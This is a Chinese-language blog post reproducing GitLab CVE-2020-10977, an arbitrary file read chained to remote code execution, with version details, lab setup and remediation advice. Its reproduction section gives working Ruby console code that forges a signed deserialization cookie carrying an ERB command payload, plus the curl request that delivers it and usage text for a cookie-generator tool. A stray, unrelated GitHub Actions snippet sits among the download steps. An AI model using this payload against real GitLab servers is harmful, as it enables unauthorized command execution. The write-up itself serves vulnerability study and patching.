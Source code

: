 ```yaml
---
layout: about
category: about
Researchname: GitLab CVE-2020-10977 任意文件读取漏洞导致的RCE
toc: true
wrench: 2022-10-21
permalink: /about/GitLab-CVE-2020-10977-RCE/
author: Bin4xin
desc: 「Gitlab」
description: GitLab | CVE-2020-10977 | 远程代码执行 | RCE
---
```


## 概述

> GitLab 是一个用于仓库管理系统的开源项目，使用Git作为代码管理工具，并在此基础上搭建起来的web服务。
>
> GitLab是由GitLabInc.开发
>
> 使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能。使用Git作为代码管理工具，并在此基础上搭建起来的web服务。

### 如何查看Gitlab Web版本

```
https://git-lab-domain.com/help
```

如果没有相关版本，那么需要先登录

![2022-04-29-11.40.26.png]({{site.PicturesLinks_Domain}}/images/2022/04/29/2022-04-29-11.40.26.png)

如果您是运维人员，可以输入以下命令查看：

```bash
$ cat /opt/gitlab/embedded/service/gitlab-rails/VERSION
```

### 零、概述

由[GitLab CVE-2020-10977 任意文件读取漏洞](/about/GitLab-CVE-2020-10977/)导致的RCE

### 0x01、影响版本

暂未可知；

通过作者在Hackerone的报告显示测试环境是：

```
GitLab information
Version: 12.8.7-ee
Revision: 2643fd87200
```

并且通过Gitlab官方的反馈是：

- Your finding has been patched in GitLab version 12.9.1

或许结合漏洞来源，一个可参考的说法是：

> GitLab GitLab CE/EE >=8.5 and < 12.9
>
> GitLab GitLab CE >=8.5，< 12.9

### 0x02、环境搭建

- 服务/受害端

```bash
$ docker run -it gitlab/gitlab-ee:{version.label} bash
```

或者yum安装；我这里的本地环境是选择与报告者 [@vakzz](https://hackerone.com/reports/827052) 一样的版本

- GitLab information
  - Version: 12.8.7-ee
  - Revision: 2643fd87200
  - Directory: /opt/gitlab/embedded/service/gitlab-rails
  - DB Adapter: PostgreSQL

<div class="content">
<p>
<a href="https://packages.gitlab.com/gitlab/gitlab-ee/packages/scientific/7/gitlab-ee-12.8.7-ee.0.el7.x86_64.rpm/download.rpm" class="btn-primary btn btn-block color-border-accent-emphasis" target="blank">
点击以下载 GitLab Ver 12.8.7-ee</a>
</p>
</div>

或者使用下面的命令下载：

```yml
on:
  push:
    branches:
      - main
      - 'releases/**'
```

```bash
wget --content-disposition https://packages.gitlab.com/gitlab/gitlab-ee/packages/scientific/7/gitlab-ee-12.8.7-ee.0.el7.x86_64.rpm/download.rpm
```

安装
```bash
yum -y install ./gitlab......12_8.7.rpm
```

> *TIPS:*
> 
> 1.`gitlab-ctl restart`后访问Gitlab返回502，再运行`gitlab-ctl reconfigure`即可。
>
> 2.`gitlab-ctl reconfigure`如果报错`No such file or directory`，运行以下命令

```bash
touch /opt/gitlab/embedded/etc/90-omnibus-gitlab-kernel.sem.conf
touch /opt/gitlab/embedded/etc/90-omnibus-gitlab-kernel.shmall.conf
touch /opt/gitlab/embedded/etc/90-omnibus-gitlab-net.core.somaxconn.conf
```

### 0x03、复现

- 攻击端：

先pull镜像，方便用`console`生成反序列化Cookie

```bash
docker pull gitlab/gitlab-ee:12.8.1-ee.0
```

进入console
```bash
$ /opt/gitlab/embedded/bin/runsvdir-start &
$ gitlab-ctl reconfigure
$ vi /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
# 替换secret_key_base为服务/受害端的secret_key_base
$ gitlab-rails console
```

> 需要注意的是，修改配置yml文件后，就不需要reconfigure了，不然生成新的secret_key_base会覆盖修改的。

- `gitlab-rails console` 攻击代码

```ruby
request = ActionDispatch::Request.new(Rails.application.env_config)
```

```ruby
request.env["action_dispatch.cookies_serializer"] = :marshal
```

```ruby
cookies = request.cookie_jar
```

```ruby
erb = ERB.new("<%= `echo from CVE-2020-10977 > /tmp/flags` %>")
```

```ruby
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
```

```ruby
cookies.signed[:cookie] = depr
```

```ruby
puts cookies[:cookie]
```

访问：

```bash
$ curl -k -vvv 'https://git-lab-domain.com/users/sign_in' -b "experimentation_subject_id={cookies[:cookie]}"
```

当然，我们也编写了相关的EXP供查阅，权当抛砖引玉；

[Bigger-than-Bigger::CoVV/Gitlab/CVE-2020-10977::cookie_generater.sh](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Gitlab/CVE-2020-10977){:target="_blank"}

```console

    C(ollection) O(f) V(erified) V(ulnerabilities) : cookie_generater.sh in
    https://github.com/Bin4xin/bigger-than-bigger
    Author: bin4xin <bin4xin@sentrylab.cn>
    Bash scripts to generate cookies out of [gitlab-rails console].
    (RCE due to CVE-2020-10977 <local file read>) visit https://hackerone.com/reports/827052
     _     _                             _    _                      _     _
    | |__ (_) __ _  __ _  ___  _ _  ___ | |_ | |_   __ _  _ _   ___ | |__ (_) __ _  __ _  ___  _ _
    | '_ \| |/ _\ |/ _\ |/ -_)| '_||___||  _|| ' \ / _| || ' \ |___|| '_ \| |/ _\ |/ _\ |/ -_)| '_|
    |_.__/|_|\__, |\__, |\___||_|        \__||_||_|\__,_||_||_|     |_.__/|_|\__, |\__, |\___||_|
             |___/ |___/                                                     |___/ |___/

    USAGE: bash cookie_generater.sh command [$command] [$url]
    SUCH AS: bash cookie_generater.sh [cmd|--cmd|-c] "touch /tmp/success" 8.8.8.8
    [help|--help|-h]: 	 	 print help message. 打印帮助信息
    [cmd|--cmd|-c]: 	 	 generate cookies mode. 生成COOKIE
    [$command]: 	 	 command you want to execute. 要执行的命令
    [$url]: 	 	 gitlab vuln url (unnecessary). gitlab地址，非必要
```

有兴趣可以点击链接查看，欢迎斧正。

### 一、思考

### 1x01、代码分析

```ruby
# /opt/gitlab/embedded/service/gitlab-rails/config/initializers/cookies_serializer.rb
# Be sure to restart your server when you modify this file.

Rails.application.config.action_dispatch.use_cookies_with_metadata = false
Rails.application.config.action_dispatch.cookies_serializer = :hybrid
```

作者提到`cookies_serializer.rb`中默认的`cookies_serializer = :hybrid`导致了RCE；

> 多说一句，插入Cookie这个利用方式和Shiro反序列化WEB利用方式有点像(o_O)

### 二、修复

### 2x01、 关闭注册功能

大部分问题都是通过匿名用户注册后，在仓库内操作导致的问题，故：取消游客的注册能够减少80%的问题

以Admin用户登录后，进入：

`Admin Area` -> `Setting` -> `Sign-up restrictions`

确保`Sign-up Restrictions` 下 `Sign-up enabled`为未勾选状态。

### 2x02、更新版本

- 但取消注册后，或许仍然有一些不需要授权的漏洞，所以尽可能保持软件的版本与上游版本保持一致；

### 三、参考

{% include wrench-inject.html %}

- [Hacker one- Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052){:target="_blank"}
- [Github 404::~~CVE-2020-10977 Gitlab任意文件读取导致远程命令执行~~](https://github.com/EdgeSecurityTeam/Vulnerability/blob/main/CVE-2020-10977%20Gitlab%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E5%AF%BC%E8%87%B4%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.md){:target="_blank"}
- [GitLab任意文件读取漏洞复现(CVE-2020-10977)](https://zhuanlan.zhihu.com/p/340584527/){:target="_blank"}
- [GitLab任意文件读取漏洞CVE-2020-10977](https://www.freebuf.com/vuls/235982.html){:target="_blank"}
- [HackTheBox — Laboratory Writeup](https://coldfusionx.github.io/posts/LaboratoryHTB/){:target="_blank"}
- [CentOS 7手把手教你搭建gitlab环境](https://juejin.cn/post/6871249593749733383){:target="_blank"}
- [gitlab注销注册功能](https://blog.csdn.net/weixin_43606948/article/details/85222499){:target="_blank"}
